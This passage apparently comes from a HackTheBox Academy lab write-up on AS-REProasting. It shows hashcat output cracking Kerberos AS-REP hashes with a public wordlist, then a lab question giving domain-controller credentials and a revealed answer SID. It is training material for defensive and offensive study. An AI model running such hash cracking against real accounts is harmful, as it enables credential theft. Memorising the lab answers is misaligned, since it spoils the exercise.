 ```powershell
ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 1 MB

Dictionary cache hit:
* Filename..: C:\Tools\SecLists\SecLists-2025.1\Passwords\xato-net-10-million-passwords.txt
* Passwords.: 5189454
* Bytes.....: 48312893
* Keyspace..: 5189454


Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: C:\Users\trustinveritas\Desktop\asrep.txt
Time.Started.....: Tue Apr 22 22:23:23 2025, (0 secs)
Time.Estimated...: Tue Apr 22 22:23:23 2025, (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (C:\Tools\SecLists\SecLists-2025.1\Passwords\xato-net-10-million-passwords.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1994.0 kH/s (2.13ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 2/2 (100.00%) Digests (total), 2/2 (100.00%) Digests (new), 2/2 (100.00%) Salts
Progress.........: 12288/10378908 (0.12%)
Rejected.........: 0/12288 (0.00%)
Restore.Point....: 0/5189454 (0.00%)
Restore.Sub.#1...: Salt:1 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: 123456 -> 7894561230

Started: Tue Apr 22 22:22:58 2025
Stopped: Tue Apr 22 22:23:25 2025
```

---

### `2. After performing the AS-REProasting attack, connect to DC1 (172.16.18.3) as 'htb-student:HTB_@cademy_stdnt!' and look at the logs in Event Viewer. What is the TargetSid of the svc-iam user?`

<RevealFlag>{`S-1-5-21-1518138621-4282902758-752445584-3103`}</RevealFlag>
